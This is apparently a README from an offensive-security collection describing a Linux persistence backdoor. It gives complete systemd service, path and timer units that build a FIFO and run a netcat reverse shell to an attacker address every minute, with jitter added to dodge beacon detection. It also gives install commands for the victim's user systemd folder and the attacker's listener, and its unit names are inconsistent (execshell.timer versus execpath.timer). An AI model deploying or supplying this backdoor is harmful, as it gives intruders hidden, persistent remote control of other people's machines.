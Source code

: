 # Proxy Initialization

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe` indirectly via a path-based unit.

The service file (`revshell.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

The path file (`execshell.path`) uses:

* The `PathExists` directive to monitor a path that should always exist - `/etc/passwd`
* The `Unit` directive to identify the unit file to execute when the path directive has been validated

The timer file (`execshell.timer`) uses:

* The `AccuracySec` directive to align service execution with the wider system
* The `OnCalendar` directive to execute the specified unit at the start of every minute
* The `Unit` directive to identify the unit file to execute when the timer is triggered
* The `RandomizedDelaySec` to avoid simple beacon detections
* The `Persistent` directive to reactivate this timer immediately if it missed previous activations

## Additional Notes

* The path `/etc/passwd` was chosen here because we can assume it will reliably exist on all Linux systems
* This is a modified version of the [ScheduledReverseShell](../ScheduledReverseShell) example;
  it is only meant to provide a way to avoid simple detections, much like how
  proxying binary execution through `rundll32.exe` works on Windows.
* Stopping all components reveals the dependency order between them:

  ```sh
  $ systemctl --user stop revshell.service
  Warning: Stopping revshell.service, but it can still be activated by:
    execshell.path
  $ systemctl --user stop execshell.path
  Warning: Stopping execshell.path, but it can still be activated by:
    execpath.timer
  $ systemctl --user stop execpath.timer
  $
  ```

## Step by Step

1. Stand up listener on attacker server

```sh
nc -nlvp 4444
```

2. Generate a service file to create the backdoor on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Service]
; only consider this service up if the ExecStart directive succeeds
; (just to show some variety when compared to ScheduledReverseShell's revshell.service)
Type=exec
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a path file to execute the backdoor on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.path.html
[Path]
PathExists=/etc/passwd
Unit=revshell.service
```

4. Generate a timer file to execute the path unit at regular intervals (every minute in our case)

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=execshell.path
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim

```sh
mkdir -p ~/.config/systemd/user/
ln -s `pwd`/execpath.timer ~/.config/systemd/user/
ln -s `pwd`/execshell.path ~/.config/systemd/user/
ln -s `pwd`/revshell.service ~/.config/systemd/user/
```

5. Start the scheduled task

```sh
systemctl --user start execshell.timer
```

6. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
